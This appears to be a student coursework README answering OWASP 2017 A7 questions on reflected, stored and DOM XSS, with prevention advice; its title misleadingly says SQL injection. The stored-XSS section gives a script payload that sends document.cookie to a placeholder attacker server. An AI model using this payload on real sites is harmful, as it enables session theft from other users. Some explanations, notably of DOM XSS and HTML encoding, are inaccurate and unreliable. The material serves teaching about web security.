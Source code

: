 # Week-11 A1 SQL injection
Group: Martin Frederiksen(cph-mf237), Andreas Vikke(cph-av105).


### Explain the “sections”, “Is the Application Vulnerable” and “How to Prevent” for the OWASP 2017 Risks: A7
- **Reflected XSS:** The user interacts with a link that sends them to a site with data from the attacker. This data can be javascript that extracts information and sends it futher to the atrackers server.
- **Stored XSS:** The attacker  stores unsanitized data in the database which later shows up in other users browsers and executes.
- **DOM XSS:** The websites framework dynamically includes a libary which the attacker has control over.
- **Prevent:** To prevent the data needs to be seperated of unstruted data. This can be done with frameworks that escape XXS, escaping untrusted HTTP request, applying context-sensitive encoding, eneabeling CSP as a defense-in-depth.


### Demonstrate a simple reflected XSS example
The attacker can make an e-mail with information about the company, and a link to the real companies site. The link then points to a search site with a script that extracts the current users JSSESSION and sends it to the attackers server.


### Explain and Demonstrate a stored XSS attack with session hijacking and a subsequent attack using the “stolen” session ID
A stored XSS attack is when the attacker saves a script in the database which is then run in other users browser when it gets to them.
The attacker creates an account and in the USername field he adds <script>fetch("http://XXXX:666/evil?cookie="+document.cookie);</script> Then when users or admins see this his username, be it on a forum or in a list of users, the browser sends the JSSESSION cookie to the attackers server.


### What kind of “indications” will an attacker look for in a WEB-page before testing whether the site is vulnerable to XSS-attacks?
The attackers first looks if the server is SSL protected, if not the server sends unencrypted data, after this he looks for input fields, some input fields could be unsanitized, so more is better.


### Explain and demonstrate ways to prevent XSS-attacks
There are many ways to prevent XSS, some newer frameworks have it build in even. You can escape the XSS by design, escape untrusted HTTP requests, apply sanitation on the server site, apply context-sensitive encoding.

### Explain the terms HTML Sanitizer and HTML Encoder and their purposes
- **HTML sanitization:** examines the HTML document and makes a new HTML document that removes all the tags that are not safe, such as <script>, <object>, <embed>, <link>. The sanitation is typically using a whitelist or blacklist approch. The whitelist allows nothing but the whitelistet item, and the blacklist allows everything but the blacklistet items.
- **HTML encoder:** The encoding of the HTML document determines what character encoding to be used, default UTF-8.